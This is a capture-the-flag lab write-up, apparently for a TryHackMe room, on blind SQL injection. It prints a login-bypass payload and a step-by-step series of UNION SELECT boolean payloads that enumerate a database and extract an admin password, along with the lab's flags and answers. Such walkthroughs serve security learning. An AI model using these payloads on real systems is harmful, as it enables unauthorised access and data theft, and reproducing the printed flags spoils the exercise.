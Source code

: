 ##  Task 6 - Blind SQLi - Authentication Bypass

One of the most straightforward Blind SQL Injection techniques is when bypassing authentication methods such as login forms. In this instance, we aren't that interested in retrieving data from the database; We just want to get past the login. 


Login forms that are connected to a database of users are often developed in such a way that the web application isn't interested in the content of the username and password but more whether the two make a matching pair in the users table. In basic terms, the web application is asking the database "do you have a user with the username bob and the password bob123?", and the database replies with either yes or no (true/false) and, depending on that answer, dictates whether the web application lets you proceed or not. 

Taking the above information into account, it's unnecessary to enumerate a valid username/password pair. We just need to create a database query that replies with a yes/true.


**What is the flag after completing level two? (and moving to level 3)**

Using ``' OR 1=1;--`` We can get to the next level and recieve our flag which is THM{SQL_INJECTION_9581}

* * * 

##  Task 7 - Blind SQLi - Boolean Based 

Boolean based SQL Injection refers to the response we receive back from our injection attempts which could be a true/false, yes/no, on/off, 1/0 or any response which can only ever have two outcomes. That outcome confirms to us that our SQL Injection payload was either successful or not. On the first inspection, you may feel like this limited response can't provide much information. Still, in fact, with just these two responses, it's possible to enumerate a whole database structure and contents.

**What is the flag after completing level three?**

In order to get this flag we can use the same steps as previous with and proceed until

1. ``admin123' UNION SELECT 1;--``
2. ``admin123' UNION SELECT 1,2,3;-- ``
3. ``admin123' UNION SELECT 1,2,3 where database() like '%';--``
4. ``admin123' UNION SELECT 1,2,3 where database() like 's%';--`` we continue on with this until we find the name of the database which is sqli_three
5. ``admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'a%';--``
6. ``admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name='users';--``
7. ``admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%';`` Again you'll need to cycle through letters, numbers and characters until you find a match. As you're looking for multiple results, you'll have to add this to your payload each time you find a new column name, so you don't keep discovering the same one. For example, once you've found the column named id, you'll append that to your original payload.
8. ``admin123' UNION SELECT 1,2,3 from users where username like 'a%``
9. ``admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%`` Cycling through until we find the password which is 3845.
